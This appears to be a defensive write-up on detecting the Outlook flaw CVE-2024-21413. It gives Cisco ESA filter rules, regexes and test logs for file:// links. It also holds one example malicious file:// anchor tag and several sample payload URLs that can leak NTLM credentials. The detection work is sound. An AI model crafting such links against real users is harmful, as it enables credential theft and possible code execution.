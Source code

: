 # CVE-2024-21413.md


This CVE-2024-21413 seems to utilize the file:// based URL combined with an exclamation mark ('!') and some text added at the end of the link to bypass built-in MS Outlook restriction.

> An attacker could craft a malicious link that bypasses the Protected View Protocol, which leads to the leaking of local NTLM credential information and remote code execution (RCE).
> 
> Source: [CVE-2024-21413](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21413)


Example of a suspicious link that can trigger PTH:

```
<a href="file:///192.0.2.1/cve-2024-21413!cve\">Click Me</a>
```

The file protocol can refer to open files on local or network drive. We should be interested in a blocking any file:// based URLs. 


Cisco ESA doesn't evaluate non-web hyperlinks, the ones that don't start with http:// or https:// protocol or do not include a www subdomain. But we know that not all hyperlinks are web links. The URL scheme supports plenty of others like ftp://, ssh://, or the file:// protocol. The Cisco ESA cannot evaluate non-web URLs but can detect them using Message or Content Filters. Using the right regex we can implement simple or more complex detection of these non-web URLs.

To reduce FP cases let's create a filter that covers IPv4 and domain-based URLs.

An example of a simple IPv4-based regex:

```
file:\/{0,4}\\{0,2}[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}
```

This covers URLs starting with file: protocol followed by 0 to 4 slashes ('/') and/or 0 to 2 backslashes ('\').
The following samples have been considered and tested:


1) `file://192.0.2.1/asdad`
2) `file:////192.0.2.1/asdad`
3) `file:///192.0.2.1/asdad`
4) `file://\\192.0.2.1/asdad`
5) `file:///\192.0.2.1/asdad`
6) `file:///\\192.0.2.1/asdad`


A similar regex for domain-based URLs:

```
file:\/{0,4}\\{0,2}(?:[a-zA-Z0-9](?:[a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?\.)+[a-zA-Z]{2,}
```

An example of a hostname-based URL samples


7) `file://server.com/asdsad`
8) `file:///server.com/asdsad`


The filter for this can be covered in a single condition but this test will use two conditions.

Message Filter version: 

```sh
CVE-2024-21413: if (recv-listener == "IncomingMail") {
    if ( body-contains("file:\\/{0,4}\\\\{0,2}[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}", 1) 
     or 
     body-contains("file:\\/{0,4}\\\\{0,2}(?:[a-zA-Z0-9](?:[a-zA-Z0-9\\-]{0,61}[a-zA-Z0-9])?\\.)+[a-zA-Z]{2,}", 1)
    ){
        log-entry("MF-FILE_URL: $MatchedContent");
        #quarantine('Policy');
    }
}
```

Content Filter version: 


![CF-CVE-2024-21413](img/CF-CVE-2024-21413.png)


### Filter in action:


Example of mail_logs for tested IPv4-based URLs: 

```log
# file:///\\172.16.200.55/cve!poc
 Thu Mar 21 16:14:14 2024 Info: MID 147069 Custom Log Entry: CF-FILE_URL: file:///\\\\172.16.200.55

# file:///\172.16.200.55/cve!poc
 Thu Mar 21 16:16:03 2024 Info: MID 147070 Custom Log Entry: CF-FILE_URL: file:///\\172.16.200.55

# file:\\172.16.200.55/cve!poc
 Thu Mar 21 16:59:21 2024 Info: MID 147073 Custom Log Entry: CF-FILE_URL: file:\\\\172.16.200.55
```

And some mail_logs for domain-based URLs: 

```log
# file:///\kali.taclab.com/cve!poc
 Thu Mar 21 16:12:51 2024 Info: MID 147068 Custom Log Entry: CF-FILE_URL: file:///\\\\kali.taclab.com

# file:////\taclab.com/cve!poc
 Thu Mar 21 16:08:18 2024 Info: MID 147066 Custom Log Entry: CF-FILE_URL: file:////\\taclab.com

# file:////\\kali.taclab.com/cve!poc
 Thu Mar 21 16:07:30 2024 Info: MID 147065 Custom Log Entry: CF-FILE_URL: file:////\\\\kali.taclab.com
```


This can be __simplified__ to a filter that looks for the `file://\\`  with the combination of single or multiple slashes and backslashes combined with some alphanumeric characters (including '-','!', and '.')

```sh
MF_FILE_URL: if (recv-listener == "IncomingMail") {
    if ( 
        body-contains("file:\\/{0,4}\\\\{0,2}[0-9a-zA-Z\\!-\\.]+", 1) 
    )
    {
        log-entry("MF-FILE_URL2: $MatchedContent");
        #quarantine('Policy');
    }
}
```

Similar catch rate with tested samples: 

```log
# file:///\\taclab.com\cve2024-21413!poc
 Mon Mar 25 13:20:20 2024 Info: MID 147140 Custom Log Entry: MF-FILE_URL: file:///\\\\taclab.com
 Mon Mar 25 13:20:20 2024 Info: MID 147140 Custom Log Entry: MF-FILE_URL2: file:///\\\\taclab.com

# file:///\\172.16.200.55\cve2024-21413!poc
 Mon Mar 25 13:27:47 2024 Info: MID 147143 Custom Log Entry: MF-FILE_URL: file:///\\\\172.16.200.55
 Mon Mar 25 13:27:47 2024 Info: MID 147143 Custom Log Entry: MF-FILE_URL2: file:///\\\\172.16.200.55
```



Ref:

- https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/
- https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/tree/main
- https://en.wikipedia.org/wiki/File_URI_scheme